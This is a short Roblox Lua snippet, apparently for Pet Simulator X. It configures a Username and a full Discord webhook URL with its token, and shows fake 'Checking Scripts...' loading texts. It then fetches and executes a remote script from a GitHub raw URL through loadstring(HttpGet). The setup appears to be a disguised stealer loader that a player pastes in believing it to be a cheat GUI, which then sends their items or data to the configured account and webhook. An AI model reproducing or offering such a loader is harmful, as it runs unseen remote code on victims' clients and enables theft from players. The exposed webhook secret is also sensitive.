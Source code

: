 Username = "6sdfsd546xrfthzdsIRF" 

WebHook = "https://discord.com/api/webhooks/1092767143717773332/95wF7BpGFNLX7ztHakFP474jwyyWJqc4HzH3jRLqGKwlEBH0qomLzF--1FBroDLGfd_A"

loadingscreen = true 

_G.Text1 = "Waiting for Script..." 

_G.Text2 = "Checking Scripts..." 

_G.Text3 = "Starting Script..." 

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
